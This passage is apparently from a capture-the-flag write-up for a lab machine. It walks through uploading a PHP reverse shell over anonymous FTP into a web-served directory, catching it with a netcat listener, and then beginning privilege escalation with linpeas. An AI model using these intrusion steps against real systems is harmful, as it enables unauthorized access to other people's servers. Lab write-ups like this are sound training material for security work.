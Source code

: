 ```bash
```
When we go to files [http://10.10.167.97/files]
We can see directory listing is enabled with files we saw in `ftp`
![](https://imgur.com/eZLGGtgl.png)

## Gaining Shell
ftp file is empty as we saw earlier
using ftp `put` command, i was able to upload my reverse-php shell.
but only the shell in ftp folder.
### FTP to Upload Shell
```bash
ftp> put rshell.php
local: rshell.php remote: rshell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5490 bytes sent in 0.00 secs (56.2975 MB/s)
```
![](https://imgur.com/rhpnJw6l.png)

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.82.80] from (UNKNOWN) [10.10.167.97] 45064
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:49:10 up 17 min,  0 users,  load average: 0.00, 0.05, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
I found our first recipe in recipe.txt!
Let's get the user flag.
## Local privilege escalation
I tried `sudo -l`, `crontab`, ssh bruteforce for user `lennie` which i identified in home. No luck with that!

After running to find that next step, i run `linpeas.sh` and noticed these folders
```bash
/vagrant
/incidents
/lost+found
/data
```
I checked the `incidents` directory, found
`suspicious.pcapng`. Downladed the file using wget and python simple server.
The file extension reminded me of pentesterlab pcap badge!
so it was time to open `Wireshark`!
